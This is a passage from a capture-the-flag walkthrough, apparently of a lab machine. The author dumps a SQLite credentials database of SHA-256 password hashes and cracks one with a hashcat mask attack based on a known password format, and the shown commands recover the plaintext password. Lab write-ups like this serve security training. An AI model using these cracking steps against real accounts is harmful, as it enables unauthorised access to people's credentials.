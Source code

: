```text

- Tina, your delightful student
```

This revealed the password format used. So for susan it would be `susan_nasus_xxxxxxxxx`

Linpeas also revealed a db file in susan home directory.

![db](12.png)

```bash
susan@perfection:~/Migration$ sqlite3 pupilpath_credentials.db 
SQLite version 3.37.2 2022-01-06 13:25:41
Enter ".help" for usage hints.
sqlite> .dump
PRAGMA foreign_keys=OFF;
BEGIN TRANSACTION;
CREATE TABLE users (
id INTEGER PRIMARY KEY,
name TEXT,
password TEXT
);
INSERT INTO users VALUES(1,'Susan Miller','abeb6f8eb5722b8ca3b45f6f72a0cf17c7028d62a15a30199347d9d74f39023f');
INSERT INTO users VALUES(2,'Tina Smith','dd560928c97354e3c22972554c81901b74ad1b35f726a11654b78cd6fd8cec57');
INSERT INTO users VALUES(3,'Harry Tyler','d33a689526d49d32a01986ef5a1a3d2afc0aaee48978f06139779904af7a6393');
INSERT INTO users VALUES(4,'David Lawrence','ff7aedd2f4512ee1848a3e18f86c4450c1c76f5c6e27cd8b0dc05557b344b87a');
INSERT INTO users VALUES(5,'Stephen Locke','154a38b253b4e08cba818ff65eb4413f20518655950b9a39964c18d7737d9bb8');
COMMIT;
```

I dumped the whole database with `.dump` and we find some password hashes.

Let's take susan's hash and crack it.

#### Hashcat

We know the password format used here so we don't need a password list.

We can use hashcat to do the job for us.

![hashcat](13.png)

We will use attack mode 3 which is brute force and the `?d` charset that would loop numbers from 0-9.

```terminal
$ hashcat -m 1400 crack.hash -a 3 susan_nasus_?d?d?d?d?d?d?d?d?d


hashcat (v6.2.6) starting

Host memory required for this attack: 1475 MB

abeb6f8eb5722b8ca3b45f6f72a0cf17c7028d62a15a30199347d9d74f39023f:susan_nasus_413759210
Approaching final keyspace - workload adjusted.


Session..........: hashcat
Status...........: Exhausted
Hash.Mode........: 1400 (SHA2-256)
Hash.Target......: crack.hash
Time.Started.....: Fri Apr 26 10:30:04 2024 (34 secs)
```